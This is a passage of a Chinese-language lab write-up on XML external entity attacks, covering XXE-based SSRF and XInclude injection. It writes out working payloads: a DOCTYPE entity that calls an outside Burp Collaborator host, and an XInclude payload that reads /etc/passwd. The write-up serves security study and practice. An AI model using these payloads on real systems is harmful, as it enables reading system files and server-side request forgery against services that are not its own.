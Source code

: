 这里有个问题，productldID：`1&1;/etc/passwd`都不行，只能是`1&xxe;/etc/passwd`，一开始没有弄明白，后来翻了一下，&xxe是引用上面!DOCTYPE的定义的意思

![image-20220525135625865](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525135625865.png)

这里直接引用!DOCTYPE也能触发

![image-20220525135847593](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525135847593.png)

------

#### 0x05 XXE SSRF

原理甚至Poc跟**0x04**的差不多，先介绍一下Burpsuite的客户端功能：`Burp->Burp Collaborator client`

![image-20220525140518260](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525140518260.png)

点下`Copy to clipboard`会获取到一个链接：`gscj3w1topnse9l514qb7o6xbohf54.burpcollaborator.net`实际上可以比这个功能理解为dnslog，接下来构造Poc：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://oldrw4u1hxg07heducjj0wz54waoyd.burpcollaborator.net"> ]>
<stockCheck>
	<productId>
1&xxe;
   	</productId>
    <storeId>
        2
    </storeId>
</stockCheck>
```

返回burp客户端查看结果

![image-20220525140835661](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525140835661.png)

通过一步步探测获取flag

![image-20220525142551202](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525142551202.png)

![image-20220525142608420](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525142608420.png)

------

#### 0x06 XXE XInclude

当不能自定义XML DTD的时候，就可以尝试这种方案，比如如下

![image-20220525144257305](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525144257305.png)

构造Poc:

```xml-dtd
productId=2<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
